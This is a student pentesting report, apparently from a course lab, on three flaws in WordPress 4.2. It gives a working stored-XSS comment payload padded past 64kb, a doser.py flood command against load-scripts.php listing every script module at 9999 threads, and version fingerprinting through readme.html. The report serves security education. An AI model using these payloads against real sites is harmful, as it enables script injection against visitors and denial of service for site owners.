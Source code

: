 # Codepath Week7: Wordpress
# Project 7 - WordPress Pentesting

Time spent: **24** hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report

# 1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
		1. A comment which exceeds 64 kb of data to a post will cause the HTML to no longer be 'well formed', allowing a malicious script to be inserted.  
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: XssWeek7.gif
  - [ ] Steps to recreate: 
		1. Over 64kb of data must be sent in the comment, achieved by padding the comment with over 64000 'X's . 
		2. The script is thus: <a title='x onmouseover=alert(unescape(/hello%20dallens/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px --64000Xs--'></a>
		3. Post this code as a comment and a persistent XSS dialog box will display.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)
# 2. WordPress <= 4.9.4 - Unauthenticated Page Request Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: 
		1. An unauthenticated request to to all Wordpress stored javascripts that is uneccesary for site functionality can be leveraged for a DOS, causing the server to be unresponsive.
    - Vulnerability types: DOS/Improper Authentication
    - Tested in version: 4.2
    - Fixed in version: Unpatched 
  - [ ] GIF Walkthrough: UnauthenticatedDOSfinal.gif
  - [ ] Steps to recreate: 
		1. Use a script to generate multiple requests (https://github.com/Quitten/doser.py/blob/master/doser.py) and a specially crafted payload requesting all stored javascript modules is launched from the attacker's machine.
		2. ```python doser.py -g 'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)
# 3. http://wpdistillery.vm/readme.html exposes version number
  - [ ] Summary: 
		1. The Wordpress version is exposed via an unauthenticated request to the README file.
    - Vulnerability types: Fingerprinting or Enumeration
    - Tested in version: 4.2
    - Fixed in version: (unfixed)
  - [ ] GIF Walkthrough: README_VersionFingerprinting.gif
  - [ ] Steps to recreate: 
		1. Navigate to http://wpdistillery.vm/readme.html
		2. Wordpress version is exposed without any authentication or effort by an attacker.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
